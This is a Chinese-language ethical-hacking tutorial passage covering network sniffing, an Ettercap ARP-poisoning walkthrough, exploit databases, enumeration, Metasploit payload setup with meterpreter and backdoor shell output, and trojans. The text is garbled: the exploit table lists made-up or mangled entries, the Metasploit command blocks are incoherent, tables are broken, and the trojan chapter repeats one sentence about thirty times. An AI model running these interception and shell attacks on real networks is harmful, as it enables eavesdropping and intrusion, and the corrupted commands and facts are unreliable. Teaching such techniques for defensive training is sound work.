使用不同的工具观察、监听、监控和捕获通过网络传输的数据包的过程被称为嗅探。这类似于窃听电话线并监听对话。这个过程也被称为对计算机网络进行窃听。如果任何网络上有开放的端口或开放的交换机，任何员工都可以轻松地嗅探流量并分析该流量。如果有人与开放端口处于同一位置，或者使用相同的以太网线访问网络，那么这个人就可以嗅探网络的全部流量。

换句话说，嗅探将允许你看到未受保护和受保护的流量。如果你遵循正确的规则和条件并建立了正确的协议，你可以攻击系统并收集所有流量。

## 可以嗅探什么？

以下信息可以被嗅探：

- 电子邮件流量
- Telnet 密码
- Web 流量
- 聊天会
- 路由器配置
- FTP 密码

## 嗅探是如何工作的？

嗅探器通常使用杂散模式（promiscuous mode）。这允许黑客使用网卡（NIC）捕获网络上传输的数据。在此过程中，会比较目标地址。

https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_fingerprinting/img/d52d840f5bef7b14bab9bcc53820f70.png

嗅探器可以用于监控封装在数据包中的。

## 嗅探类型

嗅探可以是主动或被动的。

### 被动嗅探

在被动嗅探中，黑客可以锁定流量但无法对其进行任何更改。这种方法用于集线器（hub）设备。集线器上的流量发送到网络中的每个端口。网络使用集线器连接多个系统，这意味着网络上的每个主机都可以查看流量。因此，恶意黑客很容易捕获所有信息。大多数集线器设备已经过时，这使得被动嗅探失效。

# 主动嗅探

在主动嗅探中，流量被监控和锁定，且黑客有权更改该流量。这种交换用于基于交换机的网络，涉及向目标网络注入 ARP（地址解析协议）数据包。此数据包将填充交换机的 CAM（内容地址存储）表。该表用于跟踪主机与端口之间的连接。

以下技术用于主动嗅探：

- DHCP 攻击
- MAC 泛洪
- ARP 毒持
- 欺骗攻击
- DNS 毒持

POP，或邮局协议（Post Office Protocol），仅用于接收电子邮件。它不提供防止嗅探的保护。因此，它可以被捕获。

### FTP

FTP，或文件传输协议（File Transfer Protocol），仅用于跨网络发送和接收任何文件夹或文件。它不保护数据，因此信息可能会被黑客窃取。

### IMAP

IMAP，或互联网消息访问协议（Internet Message Access Protocol），在功能上与 SMTP 类似。它容易受到嗅探攻击。

### Telnet

Telnet 是一种以明文形式在网络上发送所有信息的协议。这些信息包括用户名、按键记录和密码。因此，它可以很容易被嗅探。

嗅探器不仅是一个用于查看实时流量的工具，它还可以分析每个数据包中的数据，保存信息并在必要时随时进行审查。

## 硬件协议分析仪

在我们进一步了解嗅探器之前，查看硬件协议分析仪非常重要。分析仪插入到硬件中用于访问网络。通过利用分析仪，人们可以获取有关网络流量的信息，还可以监控这些流量。

硬件协议分析仪用于以下目的：

- 识别或监控网络中的任何恶意流量（使用目标系统中存在的黑客软件完成）
- 捕获数据包、解码这些数据包并根据某些规则分析内容
- 允许恶意黑客查看通过网络的数据包的单个数据字节

大多数各种种类的黑客无法访问硬件设备，因为它们非常昂贵。

## 合法拦截

合法拦截（Lawful Interception，简称 LI）是一种访问任何通信网络数据（包括电子邮件消息和电话通话）的合法方式。LI 自电子通信出现以来一直存在，曾被称为窃听。必须有一份法律约束性合同，允许黑客从目标网络中分析或获取证据。因此，这是一个过程，即网络服务提供商或运营商将通知官方许可，以访问任何机密信息或组织与个人之间的任何通信。

许多国家已经起草了法律，有些已经颁布了法律，以监管任何 LI 流程。有一些标准化小组正在专门为 LI 创建技术。大多数 LI 活动是为了网络安全和基础设施保护而进行的，一些私有网络运营商被允许在其网络内执行 LI。

## 嗅探工具

黑客使用不同的工具来嗅探目标网络，每种工具都有自己的特性。这些特性使得黑客更容易分析流量并更好地理解信息。嗅探工具是一种常见的应用程序，本节列出了一些实现最常用的工具。

### BetterCAP

这是一个灵活、便携且强大的工具，可用于对目标网络执行不同类型的中间人攻击（MITM）。它还可以用于操纵网络中的 HTTPSPS、TCP 和 HTTP 流量，在网络中嗅探凭据等。

### Ettercap

Ettercap 是一套全面的工具，可用于执行中间人攻击。该套件可以嗅探连接、过滤网站内容并执行许多其他有趣的技巧。它还支持对不同协议的被动和主动剖析，并包含了许多使黑客能够执行主机和网络分析的功能。

### Wireshark

Wireshark 是最知名且广泛使用的数据包嗅探器之一。该工具具有许多功能，使黑客能够剖析和分析通过网络的流量。

### TCPDump

TCPDump 是一个著名的数据包分析器。它可以在操作系统的命令提示符中使用，允许黑客观察和拦截 TCP/IP 数据包以及在网络上共享的其他数据包。可以通过链接安装此工具：www.tcpdump.org。

### WinDump

WinDump 是 TCPDump 工具的替代品。后者只能在 Linux 上使用，而前者可以在 Windows 上使用。这同样是一个可以显示头部信息的命令行工具。

### OmniPeek

OmniPeek 是由 WildPackets 公司制造的工具。它是 EtherPeek 工具的演进版本。

### Dsniff

Dsniff 是一个工具套或集合，可用于嗅探各种协议。Dsniff 为 Linux 和 Unix 操作系统设计，目前还没有 Windows 对应版本。

### EtherApe

EtherApe 是一个兼容 Linux 和 Unix 的工具，用于通过图形显示任何系统上的入站和出站连接。

### MSN Sniffer

MSN Sniffer 是一种旨在嗅探由应用程序生成的流量的工具。

### NetWitness NextGen

NetWitness NextGen 可用于嗅探硬件。它还可以监控和分析任何目标网络上的流量。包括 FBI 在内的一些执法机构使用此工具。


大多数黑客使用这些工具分析任意网络流量。然后他们将剖析这些信息以更好地了解网络。

# 第 13 章

## ARP 毒化

`ARP`，或地址解析协议（Address Resolution Protocol），经常被黑客用于解析映射到机器的任何 IP 地址。网络上的每个设备都需要通过查询 `ARP` 来查找网络上任何其他系统的地址。此过程也被称为 `ARP` 欺骗（`ARP` spoofing）。

`ARP` 欺骗的工作原理如下：

1. 当机器需要将信息传递给另一台机器时，它会查看 `ARP` 表。
2. 如果在表中未找到系统地址，将在整个网络上广播 `ARP_request`。
3. 网络中的每台机器随后都需要比较 IP 和 MAC 地址。
4. 如果网络中有机器可以识别此地址，它将用 MAC 和 IP 地址响应请求。
5. 请求此信息的计算机 IP 和 MAC 地址作为对存储在 `ARP` 表中；这将有助于系统进行通信。

### 什么是 ARP 欺骗？

`ARP` 数据包可用于伪造数据并将其发送回攻击者的机器。

- `ARP` 欺骗将构建大量请求。它将响应数据并在交换机或端口上创建过载。
- 此交换机始终处于转发数据的模式。一旦 `ARP` 表被不同的响应填充，攻击者将嗅探网络中的所有数据包。

攻击者将使用伪造条目填充目标网络或计算机的 `ARP` 缓存。这种方法使用中间人方法来毒化网络。

## 什么是中间人攻击（MITM）？

中间人攻击（man-in-the-middle attack，也简称为 `MITM`、`MiTM`、`MiM`、`MIM` 和 `MITMA`）是一种在网络上进行的主动攻击。在中间人攻击期间，黑客会冒充用户并在受害者之间建立连接，并在它们之间发送消息。在这种情况下，目标网络或系统会认为它们正在与其他目标网络或系统通信。然而，实际上是攻击者控制着发生的所有通信。



整个框架中还有另外一个人会监控并控制双方之间的通信。系统可以实施 `SSL` 协议来防止这种攻击。

## ARP 毒化 – 练习

在本节中，我们将使用 `BetterCAP` 工具在局域环境中执行此攻击。这是在已安装 `Kali Linux` 和 `Ettercap` 工具的 `VMware` 工作站上完成的。后者用于嗅探网络中的流量。

为了本次练习的目的，你必须在系统上安装以下工具：

- `Kali Linux` 或 Linux 操作系统
- `VMware Workstation`
- 局域网（`LAN`）连接
- `Ettercap` 工具

你可以通过本地局域网在无线和有线网络中进行此类攻击。

### 第一步

你应该首先在设备上安装 `Kali Linux` 操作系统，然后安装 `VMware Workstation`。

### 第二步

现在，使用用户名“root”和密码“toor”登录 `Kali Linux` 系统。

### 第三步

一旦你连接到本地局域网，就应该检查网络的 IP 地址。你可以通过在终端中输入 `ifconfig` 命令来实现这一操作。

```
rootkali:~# ifconfig
eth0      Link enc=Ethernet  Hardware 00:0c:29:cf:f8:e7
       inet addr:192.168.1.128  Broadcast:192.168.1.255 Mask:255.255.255.0
       inet6 addr:fe80::280c:92ff:fe67:64/64  Scope:Link
       UP  RUNNING  MTU:1500  Metric:1
       RX packets:70  errors:0 dropped:0 overruns:0 frame:0
       TX packets:54  errors:0 dropped:0 overruns:0 carrier:0
          collisions:0  queue length:0
       RX bytes:4963 (4.8 KiB) TX bytes:8868 (8.6 KiB)

lo        Link enc=Loopback
       inet addr:127.0.0.1  Mask:255.0.0.0
       inet6 addr:::1  Scope:Host
       UP  RUNNING  MTU:65536  Metric:1
       RX packets:66  errors:0 dropped:0 overruns:0 frame:0
       TX packets:66  errors:0 dropped:0 overruns:0 carrier:0
          collisions:0  queue length:0
       RX bytes:960 (0.0 KiB) TX bytes:960 (0.0 KiB)
```

### 第四步

接下来，打开终端并按下“`Ettercap -G`”。这将打开该工具的图形界面。



### 第五步

你现在应该点击“sniff”标签页并选择统一嗅探（unified sniffing）选项。一旦做出选择，就应该继续选择接口。为此，我们将使用“`eth0`”，它是以太网连接。



### 第六步

接下来，点击页面上的“hosts”标签页并选择“scan for hosts”（扫描主机）选项。在此阶段，它将开始扫描网络中所有活动主机。

### 第七步

你应该点击“hosts”标签页并选择“hosts list”（主机列表）来查看网络上存在的不同主机。此列表将包含网络作为默认使用的网关地址。你必须确保对所选择的目标格外小心。



### 第八步

你现在必须选择攻击的目标。在中间人攻击（`MITM`）中，你应该将主机作为目标，而路由将是路由器遵循的地址。在这次攻击中，你需要拦截网络并嗅探所有通过网络传输的数据包。你还需要使用名称“target 1”和“target 2”重命名受害者和路由器地址。请记住，`VMware` 环境下的默认网关会以“2”结尾。这是因为数字“1”仅分配给物理机。

### 第九步

注意，你的目标 IP 地址为“192.168.121.129”，路由器地址为“192.168.121.122”。因此，你应该将第一个目标添加为受害者 IP 地址，将第二个目标添加为路由器 IP 地址。

```
Host 192.168.121.129 added to TARGET1
Host 192.168.121.2 added to TARGET2
```

### 第十步

你现在应该点击“`MITM`”，然后点击“`ARP` poisoning”（`ARP` 毒化）。之后，你应该勾选“sniff remote connections”（嗅探远程连接）旁边的框并点击“OK”。



### 第十一步

接下来，点击“start”开始嗅探过程。这将启动网络中的 `ARP` 毒化过程。这意味着你将网卡模式更改为混杂模式（promiscuous mode），因此本地流量可以被观察和嗅探。记住，你只允许了 `Ettercap` 嗅探 `HTTP`，因此你不要期望在过程中嗅探到 `HTTPS` 数据包。

### 第十二步

在此步中，你将查看结果。如果受害者登录了任何网站，你就可以使用 `Ettercap` 获取那些结果。

| GROUP | |
|---|---|
| sniff | |
| remote connections | |
| results using the | |
| Ettercap | |

...这可以防止嗅探。你可以使用 `SSH` 或带有 `IPsec` 的协议，也可以使用 `VPN`（虚拟专用网络）通过加密数据包来防御系统免受嗅探。最后，结合使用 `SSL` 和 `IPsec` 是一个好主意。

# 第15 章

## 利用 (Exploitation)

利用是一种程序化的脚本或软件，允许黑客利用系统的漏洞来控制整个系统。大多数黑客使用 `Nexpose`、`Nessus`、`OpenVAS` 等工具来扫描这些弱点。`Metasploit` 是识别这些漏洞的最优秀工具之一。



在本章中，你将更深入地理解用于测试系统漏洞的各种搜索引擎。

## 漏洞利用数据库 (Exploit Database)

你可以在漏洞数据库中找到与每个漏洞或暴露相关的利用程序。你可以在以下位置找到：[www.exploit-db.com](http://www.exploit-db.com)。

## 远程利用 (Remote Exploits)

此类类别包括针对远程服务或应用程序的利用程序，包括客户端侧利用。

| 日期 | 标题 | 平台 | 作者 |


|---|---|---|---|
|2016-02-23|PHP 利用工具包 - 远程代码执行 (Metasploit) (MS119-050)|PHP|Metasploit|
|2016-02-26|Microsoft Windows-140232 SMB 代码执行利用程序 (Metasploit) (MS14-067)|Windows|shneyzy|
|2016-02-27|Microsoft Windows-140233 代码执行利用程序 (Metasploit) (MS14-068)|Windows|shneyzy|
|2016-08-10|Cisco ASA-X-身份绕过 (CVE-2016-...)|硬件|Shadow Brokers|
|2016-08-14|三星智能家居摄像头 SPH-C510 - 命令注入|硬件|PennyFerson|
|2016-08-12|FreeBSD 13/14 - 提权远程代码执行|Linux|pgt|

## 常见暴露与漏洞 (Common Exposures and Vulnerabilities)

衡量信息安全的标准之一被称为常见漏洞和暴露 (Common Vulnerabilities and Exposures, `CVE`)。该字典包含了关于所有信息暴露和漏洞的信息。任何人都可以免费使用。你可以在此处查看该字典：https://cve.mitre.org。

## 国家漏洞数据库 (National Vulnerability Database)

`NVD` 或国家漏洞数据库是一个由美国政府维护的存储库。它详细列出了需要维护的标准。这将使系统管理员或伦理黑客能够自动进行漏洞管理、合规性管理和安全管理。你可以在此地找到该数据库：https://nvd.nist.gov。它还包含了配置错误、软件安全相关缺陷、产品名称、影响指标和安全检查清单。



## 远程利用 (Remote Exploit)

远程利用是指无需访问目标网络或系统。黑客可以使用远程利用来访问位于远程地点的任何系统。

## 本地利用 (Local Exploit)

系统用户只有在拥有本地系统访问权限时才会使用本地利用。

## 快速修复 (Quick Fix)

如果系统缺少更新或补丁，通常会产生漏洞。这意味着你应该至少更新一次系统。在 Windows 环境中，你可以通过控制面板中的“Windows 更新”选项中启用自动更新来实现。



在 Linux 中，你应该使用以下命令自动更新系统：

```
yum -y install yum-cron
```

# 第16 章

## 枚举 (Enumeration)

枚举是伦理黑客过程的第一阶段。在这一阶段，你可以收集信息。在此过程中，攻击者应该与目标系统或网络建立或构建一个实时连接，以尽可能地发现攻击面。然后这被用于利用目标系统。

枚举是收集有关信息的最佳方式之一：
- 网络共享
- IP 表
- SNMP 数据（如果没有妥善安全保护）
- 密码策略列表
- 不同系统上的用户名

枚举攻击始终取决于系统提供的不同服务。这些服务包括：
- DNS 枚举
- NTP 枚举
- SNMP 枚举
- Linux/Windows 枚举
- SMB 枚举

现在让我们来看一些用于枚举的工具。

### NTP Suite

大多数黑客使用 NTP Suite 进行枚举。这是在网络环境中执行的一个重要步骤。它将帮助你找到主服务器，并允许主机更新信息。这可以在不需要经过身份验证的情况下完成。查看以下示例：

```
ntpdate 192.168.1.100 01 Sep 12:50:49 ntpdate[627]:
adjust time server 192.168.1.100 offset 0.005030 sec
```

```
or
tpcdc [-ilnps] [-c command] [hostname/IP_address]
root@test]# ntpdc -c sysinfo 192.168.1.100
```

***警告：更改到旧版实现

***警告：将请求包大小从 160 更改为 48

system peer: 192.168.1.101

system peer mode: client

leap indicator: 00

stratum: 5

precision: -15

root distance: 0.00107 s

root dispersion: 0.02306 s

reference ID: [192.168.1.101]

reference time: f66s4f45.f633e130, Sept 01 2016 22:06:23.458

system flags: monitor ntp stats calibrate\jitter: 0.000000 s

stability: 4.256 ppm

broadcastdelay: 0.003875 s

authdelay: 0.000107 s

https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_enumeration

### enum4linux

此命令用于枚举 Linux 系统上的操作系统。查看下方的截图，看看如何在目标系统或网络中发现用户名。



### smtp-user-enum

此功能用于识别每个使用 SMTP 服务的网络或系统的用户名。检查下方的截图以了解如何执行操作：


```
msf exploit(vsftpd_234 backdoor) > run
[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 33 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[+][*] Command shell session 1 opened (192.168.1.103:37019 -> 192.168.1.101:6200)
[*] 2016-08-14 11:10:58 -0400
```

## Metasploit 载荷 (Payloads)

简单来说，负载（payload）是黑客用来与目标系统交互的简单或小型脚本。你可以将数据从攻击者系统传输到受害者系统。Metasploit 载荷有三种：

### 单级负载 (Singles)

单个 Metasploit 负载体积很小，设计用于在目标和攻击者系统之间启动某些通信。随后它会进入下一个阶段。例如，它可以被用于创建用户。

### 阶段级负载 (Staged)

这由攻击者实施的负载，用于向目标系统上传大文件。

### 阶段 (Stages)

阶段是负载的组件，通常使用 stager 模块（投放器模块）下载。负载的每个阶段都提供某些无大小限制的高级功能，例如 VNC 注入或 Meterpreter。

## 负载使用示例

在此例中，我们将使用 `show payloads` 命令。你可以看到你被允许使用的不同载荷，还可以查看允许黑客在目标网络或系统上上传或执行不同文件的载荷。

### msfconsole -l show payloads

|名称|公开日期|排名|描述|
|---|---|---|---|
|generic/custom||normal|自定义负载|
|generic/cmd_trap||normal|通用陷阱|
|generic/shell_bind_tcp||normal|通用命令 Shell，绑定 TCP|
|generic/shell_reverse_tcp||normal|通用命令 Shell，反弹|
|inline||| 
|generic/tight_loop||normal|通用 x86 紧凑循环|
|windows/adder||normal|无用户 Windows 执行|
|windows/dll/bind_ipack_tcp||normal|反射 DLL 注入，[42]|



|名称|排名|描述|
|---|---|---|
|windows/Upload/Execute|||


| windows/upload/Execute/Reverse | | |
| normal | VBC Server | 反射注入 |
| normal | VBC Server | 反射注入 |
| normal | VBC Server | 反射注入 |
| normal | VBC Server | 反射注入 |
[43] | |

你应该使用以下命令来设置负载：`set PAYLOAD payload/path`。

确保将监听主机和端口（`LHOST` 和 `LPORT`）设置为黑客的 IP 和端口。然后，你应该将远程主机和端口（`RHOST` 和 `RHOST`）设置为目标 IP 和端口。

```
msf exploit windows/misc/bind_tcp
set LPORT 4444 windows/meterpreter/bind_tcp
msf exploit windows/meterpreter/bind_tcp
set LHOST 192.168.1.102
set LPORT 23524
msf exploit windows/meterpreter/reverse_tcp
set LHOST 192.168.1.102
msf exploit windows/meterpreter/reverse_tcp
set RHOST 192.168.1.102
msf exploit windows/meterpreter/reverse_tcp
set LHOST 192.168.1.102
[*] Started handler1 
[*] Trying Target Windows XP SP3-6/24/2000_25535
[*] Binding to 4bd8f4a0-7d1c-411e-81a4-0f9ac61a7c7:omack_ip:192.168.1.102[135]
[*] Bound to 4bd8f4a0-7d1c-411e-81a4-0f9ac61a7c7:omack_ip:192.168.1.102[135]
[*] Sending stage (74987 bytes) sent to 192.168.1.102
[*] Meterpreter session opened on 192.168.1.102:95856 - 192.168.1.102(23524) on 2016-08-14 13:43:19 -0400
[44]
```

要创建一个会话（如下所示），你输入 "`exploit`"。

```
[*] Started handler2
[*] Trying Target Windows XP SP3-6/24/2000_25535
[*] Binding to 4bd8f4a0-7d1c-411e-81a4-0f9ac61a7c7:omack_ip:192.168.1.102[135]
[*] Bound to 4bd8f4a0-7d1c-411e-81a4-0f9ac61a7c7:omack_ip:192.168.1.102[135]
[*] Sending stage (74987 bytes) sent to 192.168.1.102
[*] Meterpreter session opened on 192.168.1.102:95856 - 192.168.1.102(23524) on 2016-08-14 13:43:19 -0400
[45]
```

现在你就可以操纵目标系统，并根据负载提供的设置更改设置。

# 第 18 章 木马攻击

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

## 木马信息

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

